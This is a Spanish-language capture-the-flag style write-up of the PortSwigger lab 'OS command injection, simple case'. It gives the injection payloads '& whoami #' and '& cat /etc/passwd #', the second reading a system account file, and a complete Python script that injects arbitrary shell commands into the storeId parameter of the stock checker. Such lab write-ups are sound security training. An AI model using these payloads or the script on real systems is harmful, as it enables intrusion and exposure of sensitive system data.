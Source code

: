 ```yaml
---
title: "01 OS command injection, simple case"
collection: publications
category: portswigger
permalink: publications/Command Injection/01_OS command injection, simple case
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección de comandos del sistema operativo en el comprobador de existencias de productos. La aplicación ejecuta un comando shell que contiene los ID de producto y tienda proporcionados por el usuario, y devuelve la salida sin procesar del comando en su respuesta.'
date: 2024-12-07
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'OS command injection, simple case'
---
```


![logo]({{site.url}}/images/Command Injection/command-lab-1/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Command Injection/command-lab-1/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, ejecutamos el comando whoami para determinar el nombre del usuario actual.

## Analisis

Como la descripcion del problema nos indica, es vulnerableal comprobador de existencias del producto. Vamos a analizar esta entrada para realizar la vulneración.

![Conf1]({{site.url}}/images/Command Injection/command-lab-1/conf1.png)

Para resolver el laboratorio debemos ejecutar el whoami y debemos realizar el url encode con `Ctrl + u` y vemos que obtenemos el usuario.

```python
& whoami #
```

![Conf2]({{site.url}}/images/Command Injection/command-lab-1/conf2.png)

## Aprobado

![Aprobado]({{site.url}}/images/Command Injection/command-lab-1/aprobado.png)

## Obtenemos el Passwd

Para ver que tan peligroso es hacer este tipo de ataque, vemos que puedo ejecutar comandos del sistema.

```python
& cat /etc/passwd #
```

![Conf3]({{site.url}}/images/Command Injection/command-lab-1/conf3.png)

# Codigo Python

```python
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def run_command(url, command):
    stock_path = '/product/stock'
    command_injection = '1 & ' + command
    params = {'productId': '1', 'storeId': command_injection}
    r = requests.post(url + stock_path, data=params, verify=False, proxies=proxies)
    if (len(r.text) > 3):
        print("(+) Command injection successful!")
        print("(+) Output of command: " + r.text)
    else:
        print("(-) Command injection failed.")

def main():
    if len(sys.argv) != 3:
        print("(+) Usage: %s <url> <command>" % sys.argv[0])
        print("(+) Example: %s www.example.com whoami" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    command = sys.argv[2]
    print("(+) Exploiting command injection...")
    run_command(url, command)

if __name__ == "__main__":
    main()
```